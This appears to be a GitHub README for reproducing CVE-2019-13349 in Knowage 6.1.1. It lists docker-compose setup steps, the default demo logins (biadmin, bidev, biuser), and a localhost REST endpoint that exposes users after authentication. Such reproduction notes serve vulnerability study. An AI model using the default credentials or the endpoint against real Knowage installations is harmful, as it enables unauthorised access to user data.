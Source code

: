 # CVE-2019-13349

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-13349>


## PoC / Exploit
* After authenticating access: <http://localhost:8080/knowage/restful-services/2.0/users>
 

## Environment used

* Knowage 6.1.1

## Requirements
* git
* docker-compose

## Reproduction 
* Terminal
```bash
git clone https://github.com/KnowageLabs/Knowage-Server-Docker.git
git checkout tag/v6.1.1
docker-compose up
```
* Web Browser
  * Go to <http://localhost:8080/knowage/> and login with one of the following credentials (**Format:** name:password)
  
        biadmin:biadmin
        bidev:bidev
        biuser:biuser
        
  * After authenticating go to <http://localhost:8080/knowage/restful-services/2.0/users>